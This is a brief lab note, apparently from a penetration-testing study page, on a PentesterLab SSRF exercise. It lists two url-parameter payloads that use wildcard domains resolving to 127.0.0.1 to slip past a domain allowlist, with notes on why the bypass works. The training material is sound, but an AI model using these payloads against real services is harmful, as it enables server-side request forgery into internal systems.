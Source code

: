 #### 5.1. SSRF 4 (Pentesterlab)

```
$target/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234
$target/?url=http://assets.pentesterlab.com.localtest.me:1234
```

Note:
   - main domain `hackingwithpentesterlab.link`
   - `*.hackingwithpentesterlab.link` always returns `127.0.0.1`
   - `assets.pentesterlab.com.<DOMAIN>` will bypass the domain validation
   - `http://readme.localtest.me/`
